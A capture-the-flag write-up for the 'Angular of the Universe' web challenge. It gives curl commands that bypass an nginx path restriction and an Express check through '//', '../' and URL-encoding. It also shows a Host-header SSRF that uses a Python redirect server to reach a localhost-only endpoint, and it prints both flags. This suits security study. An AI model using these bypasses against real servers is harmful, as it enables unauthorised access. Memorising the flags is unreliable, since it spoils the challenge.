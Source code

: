 # Angular of the Universe
Category: Web

Flag1: Solves: 39, Score: 139  
Flag2: Solves: 34, Score: 149

> You know, everything has the angular.
A bread, you, me and even the universe.
Do you know the answer?

[http://universe.chal.ctf.westerns.tokyo](http://universe.chal.ctf.westerns.tokyo)


## Solution
For the first flag, we needed to bypass the nginx `location` directive:
```conf
location /debug {
    # IP address restriction.
    # TODO: add allowed IP addresses here
    allow 127.0.0.1;
    deny all;
  }
```
And after that the one in the express-server:
```ts
if (process.env.FLAG && req.path.includes('debug')) {
      return res.status(500).send('debug page is disabled in production env')
    }
```

We bypassed both checks by constructing a url with `//` because these characters seem to stop the route matching mechanism of angular/express and tell nginx that we are not entering `/debug` by traversing back with several `..`. So for now our exploit url is: `http://universe.chal.ctf.westerns.tokyo/debug/answer//../../a`

Luckily, the express request matchers seems to decode url-encoded characters before matching, so we can just substitute `d` with `%64` and bypass the includes.

When executing `curl --path-as-is -s http://universe.chal.ctf.westerns.tokyo/%64ebug/answer//../../a`, the flag can be found between several html-Tags.

For the second of the two flags we need to bypass our request ip, because the express server checks it before sending the flag:
```ts
server.get('/api/true-answer', (req, res) => {
    console.log(req.ips)
    if (req.ip.match(/127\.0\.0\.1/)) {
      res.json(`hello admin, this is true answer: ${process.env.FLAG2}`)
    } else {
      res.status(500).send('Access restricted!')
    }
  });
```

We solved this by changing the Host-Header in our Request, because Angular parses it as the Host for internal fetch Requests:
```
renderOptions.url =
      renderOptions.url || `${req.protocol}://${(req.get('host') || '')}${req.originalUrl}`;
```

With this we can exploit a fetch call on the debug Page:
```
this.service.getAnswer().subscribe((answer: string) => {
      this.answer = answer
    })
```

By excuting curl again pointing the host to our server running a Proxy script, we get the flag: `curl --path-as-is -s http://universe.chal.ctf.westerns.tokyo/%64ebug/answer//../../a -H "Host: example.com"`


## Proxy Server
```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import logging

class S(BaseHTTPRequestHandler):
    def _set_response(self):
        self.send_response(301)
        self.send_header('Location', 'http://127.0.0.1/api/true-answer')
        self.end_headers()

    def do_GET(self):
        logging.info("GET request,\nPath: %s\nHeaders:\n%s\n", str(self.path), str(self.headers))
        self._set_response()

def run(server_class=HTTPServer, handler_class=S, port=8080):
    logging.basicConfig(level=logging.INFO)
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting httpd...\n')
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        pass
    httpd.server_close()
    logging.info('Stopping httpd...\n')

if __name__ == '__main__':
    from sys import argv

    if len(argv) == 2:
        run(port=int(argv[1]))
    else:
        run()
```

## Flag
`TWCTF{ky0-wa-dare-n0-donna-yume-ni?kurukuru-mewkledreamy!}`
`TWCTF{you-have-to-eat-tomato-yume-chan!}`